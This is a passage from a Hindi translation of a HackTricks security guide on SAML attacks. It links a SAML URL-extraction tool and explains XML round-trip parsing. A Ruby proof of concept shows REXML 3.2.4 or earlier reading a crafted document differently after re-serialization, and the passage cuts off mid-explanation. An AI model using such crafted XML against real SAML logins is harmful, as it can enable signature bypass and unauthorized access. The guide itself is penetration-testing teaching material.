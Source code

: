 # SAML हमले

## SAML हमले

<details><summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary></details>

## मूल जानकारी

{% content-ref url="saml-basics.md" %}
[saml-basics.md](saml-basics.md)
{% endcontent-ref %}

## हमलों का ग्राफिक

![](<../../.gitbook/assets/image (535) (1) (1) (2) (2) (2) (2) (2) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (13).png>)

## उपकरण

[**SAMLExtractor**](https://github.com/fadyosman/SAMLExtractor): एक उपकरण जो URL या URL की सूची ले सकता है और SAML consume URL वापस प्रिंट करता है।

## XML राउंड-ट्रिप

XML में, XML का हस्ताक्षरित भाग मेमोरी में सहेजा जाता है, फिर कुछ एन्कोडिंग/डिकोडिंग की जाती है और हस्ताक्षर की जांच की जाती है। आदर्श रूप से यह एन्कोडिंग/डिकोडिंग डेटा को बदलना नहीं चाहिए लेकिन उस परिदृश्य के आधार पर, **जांच किया गया डेटा और मूल डेटा समान नहीं हो सकता है**।

उदाहरण के लिए, निम्नलिखित कोड की जांच करें:
```ruby
require 'rexml/document'

doc = REXML::Document.new <<XML
<!DOCTYPE x [ <!NOTATION x SYSTEM 'x">]><!--'> ]>
<X>
<Y/><![CDATA[--><X><Z/><!--]]>-->
</X>
XML

puts "First child in original doc: " + doc.root.elements[1].name
doc = REXML::Document.new doc.to_s
puts "First child after round-trip: " + doc.root.elements[1].name
```
प्रोग्राम को REXML 3.2.4 या उससे पहले के संस्करण पर चलाने से निम्नलिखित आउटपुट मिलेगा:
```
First child in original doc: Y
First child after round-trip: Z
```
ऊपर दिए गए कार्यक्रम से मूल XML दस्तावेज़ को REXML ने इस प्रकार देखा:
